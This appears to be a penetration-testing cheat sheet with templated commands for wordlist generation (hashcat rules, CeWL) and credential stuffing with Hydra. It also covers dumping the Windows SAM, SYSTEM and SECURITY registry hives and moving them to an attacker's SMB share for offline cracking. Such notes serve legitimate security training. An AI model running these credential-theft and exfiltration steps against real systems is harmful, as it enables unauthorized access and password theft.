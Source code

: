 ###### Hashcat 
```bash
hashcat --force <InputFile> -r <RuleFile> --stdout | sort -u > <Outputfile>
# hashcat rules
ls /usr/share/hashcat/rules/
```

###### CeWL 

```bash
cewl -d <depth to spider> -m <minimum word length> -w <output wordlist> <url-of-website-to-scrap-in-order-to-gen-wordlist>
# email extraction : -e
```
---

### Credential Stuffing - Hydra Syntax

##### Hydra
```bash
hydra -C <user_pass.list | Payload-All-The-Things-credentials> <protocol>://<IP>
```

---

<h2 style='text-align: center'>Windows Local Password Attacks</h2>



### I - Attacking SAM
* SAM can be crack offline  if we are root

#### Step 1 : Copying SAM Registry Hives

* On peut copier 3 fichier 
* We can create backups of these hives using the reg.exe utility.

```powershell
reg.exe save <RegistryHiveName> <Windows-Path>
```

| **Registry Hive** | **Description** |
| ----- | ----- | 
|hklm\sam |	Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
| hklm\system |	Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database. | 
| hklm\security | 	Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target. |

#### Step 2 : Creating a Share with smbserver.py
 
```bash
# create share on attack host
sudo python3 <Link-To-SMB-serverpy> -smb2support <GiveANameToShare> <Directory-Shared-File-Location>
``` 
```powershell
# victim
# connect to the share and move file
move <File-To-Move> \\<AttachIO>\<ShareName>
```
